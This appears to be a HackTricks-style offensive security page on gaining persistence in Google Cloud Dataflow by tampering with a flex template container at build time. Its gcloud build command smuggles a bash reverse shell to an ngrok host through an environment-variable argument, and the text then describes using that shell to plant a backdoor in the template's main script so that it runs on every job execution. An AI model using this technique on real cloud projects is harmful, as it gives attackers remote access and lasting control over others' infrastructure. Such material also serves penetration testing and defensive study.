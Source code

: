 # GCP - Dataflow Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Dataflow

### Invisible persistence in built container

Following the [**tutorial from the documentation**](https://cloud.google.com/dataflow/docs/guides/templates/using-flex-templates) you can create a new (e.g. python) flex template:

```bash
git clone https://github.com/GoogleCloudPlatform/python-docs-samples.git
cd python-docs-samples/dataflow/flex-templates/getting_started

# Create repository where dockerfiles and code is going to be stored
export REPOSITORY=flex-example-python
gcloud storage buckets create gs://$REPOSITORY

# Create artifact storage
export NAME_ARTIFACT=flex-example-python
gcloud artifacts repositories create $NAME_ARTIFACT \
 --repository-format=docker \
 --location=us-central1
gcloud auth configure-docker us-central1-docker.pkg.dev

# Create template
export NAME_TEMPLATE=flex-template
gcloud dataflow $NAME_TEMPLATE build gs://$REPOSITORY/getting_started-py.json \
 --image-gcr-path "us-central1-docker.pkg.dev/gcp-labs-35jfenjy/$NAME_ARTIFACT/getting-started-python:latest" \
 --sdk-language "PYTHON" \
 --flex-template-base-image "PYTHON3" \
 --metadata-file "metadata.json" \
 --py-path "." \
 --env "FLEX_TEMPLATE_PYTHON_PY_FILE=getting_started.py" \
 --env "FLEX_TEMPLATE_PYTHON_REQUIREMENTS_FILE=requirements.txt" \
 --env "PYTHONWARNINGS=all:0:antigravity.x:0:0" \
 --env "/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/13355 0>&1' & #%s" \
 --region=us-central1
```

**While it's building, you will get a reverse shell** (you could abuse env variables like in the previous example or other params that sets the Docker file to execute arbitrary things). In this moment, inside the reverse shell, it's possible to **go to the `/template` directory and modify the code of the main python script that will be executed (in our example this is `getting_started.py`)**. Set your backdoor here so everytime the job is executed, it'll execute it.

Then, next time the job is executed, the compromised container built will be run:

```bash
# Run template
gcloud dataflow $NAME_TEMPLATE run testing \
 --template-file-gcs-location="gs://$NAME_ARTIFACT/getting_started-py.json" \
 --parameters=output="gs://$REPOSITORY/out" \
 --region=us-central1
```

{{#include ../../../banners/hacktricks-training.md}}



